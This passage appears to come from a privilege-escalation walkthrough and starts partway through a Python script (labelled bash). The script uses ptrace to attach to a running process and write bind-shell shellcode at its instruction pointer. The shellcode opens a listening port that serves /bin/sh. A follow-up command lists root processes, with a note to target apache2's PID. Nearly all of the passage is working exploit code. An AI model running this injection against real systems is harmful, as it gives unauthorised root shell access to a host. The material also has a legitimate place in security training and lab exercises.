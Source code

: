 ```bash
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")
pid = int(sys.argv[1])

libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers = user_regs_struct()

libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shellcode
shellcode = (
    "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f"
    "\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58"
    "\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97"
    "\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62"
    "\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
)

for i in range(0, len(shellcode), 4):
    # Convert the bytes to little-endian integer
    shellcode_byte_int = struct.unpack("<I", shellcode[i:i+4].ljust(4, '\x00'))[0]
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip + i), shellcode_byte_int)

print("Shellcode Injected!!")

# Modify the instruction pointer
registers.rip += 2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

```bash
ps -eaf | grep root
```

> **NOTE: Remember the PID for apache2**
> 
